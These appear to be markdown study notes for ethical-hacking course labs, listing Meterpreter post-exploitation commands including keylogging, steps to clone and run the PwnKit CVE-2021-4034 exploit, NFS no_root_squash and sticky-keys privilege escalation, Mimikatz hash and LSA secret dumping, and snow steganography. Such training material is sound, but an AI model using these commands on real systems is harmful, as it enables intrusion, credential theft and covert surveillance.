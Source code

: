 ### Lab2-Task2: Hack a Windows Machine using Metasploit and perform post-exploitation using Meterpreter (Page 101)
- Using steps from previous lab and after getting a Meterpreter session.
  - *sysinfo, getuid, search -f FILE, keyscan_start, keyscan_dump, shell, dir /a:h, sc queryex type=service state=all, wmic*

### Lab2-Task3: Escalate privileges by exploiting vulnerability in pkexec (Page 117)
- PwnKit: CVE-2021-4034
- https://github.com/berdav/CVE-2021-4034
  ```
  git clone https://github.com/berdav/CVE-2021-4034.git
  cd CVE-2021-4034
  make
  ./cve-2021-4034
  ```
### Lab2-Task4: Escalate privileges in Linux machine by exploiting misconfigured NFS (Page 120)
- TCP/2049 nfs_acl
- In victim:
  - Install **nfs-kernel-server**
  - Add **/home *(rw,no_root_squash)** to **/etc/exports**
  - Restart **nfs-kernel-server**
- Install **nfs-common**
- List shares: ```showmount -e [TARGET_IP]``` or ```nmap -sV --script=nfs-showmount [TARGET_IP]```
- Mount: ```mount -t nfs [TARGET_IP]:/[SHARED_FOLDER] /tmp/share```
- Copy bash: ```cp /bin/bash /tmp/share && chmod +s /tmp/share/bash```
- Go to victim (via ssh for example) and execute ```bash -p``` on the [SHARED_FOLDER]

### Lab2-Task5: Escalate privileges by bypassing UAC and exploiting sticky keys (Page 135)
- Elevating on Windows 11 and replacing sticky keys with a elevated cmd

### Lab2-Task6: Escalate privileges to gather hashdump using Mimikatz (Page 147)
- After having a privileged Meterpreter session
  - *load kiwi*
  - *lsa_dump_sam*
    - Load NTLM Hash of all users
  - *lsa_dump_secrets*
    - LSA secrets that contain User password, IE passwords, service account passwords, SQL passwords.
  - *password_change -u Admin -n NTLM_HASH -P NEW_PASSWORD*

### Lab3-Task4: Hide data using white space steganography (Page 204)
- Hide content
  - **snow -C -m "MESSAGE" -p "PASSWORD" ORIGINAL_FILE NEW_FILE**
- Reveal content
  - **snow -C -p "PASSWORD" NEW_FILE**
